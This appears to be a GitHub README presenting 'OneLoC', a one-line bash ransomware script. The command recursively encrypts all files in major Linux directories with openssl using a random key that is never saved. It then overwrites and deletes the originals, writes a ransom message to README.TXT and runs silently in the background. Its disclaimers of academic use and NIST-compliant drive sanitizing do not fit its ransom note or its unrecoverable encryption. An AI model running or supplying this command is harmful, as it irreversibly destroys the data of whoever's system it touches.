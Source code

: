 # Ransomware-Oner-Line - OneLoC 

This is a code for ransomware in bash script oner line. !!! PURELY FOR ACADEMICAL PURPOSES !!!  

I am not responsible in any way for the misuse of this script, this is code normally installed in any linux distribution  
that has been bundled in a way to encrypt all data using AES-CBC-256 encryption with openssl.  

This script was developed for the purpose of sanitizing physical storage drives for disposal to NIST-800-88 standard  

With great powers, great responsibilities...  

### OneLoC Code
#### One LoC: One Line Of Code

```
Ransom@lock:~$ for i in $(find /home /media /mnt /opt /root /srv /tmp /var -type f); do openssl enc -aes-256-cbc -a -salt -in $i -out $i.LoC -k $(echo -n $RANDOM | base64 | sha256sum) && echo "OneLoC Anti-Forensic..." > $i && rm -rf $i;echo 'All your files has been encrypted by: OneLoC !' > $HOME/README.TXT;done >/dev/null 2>&1& 
```
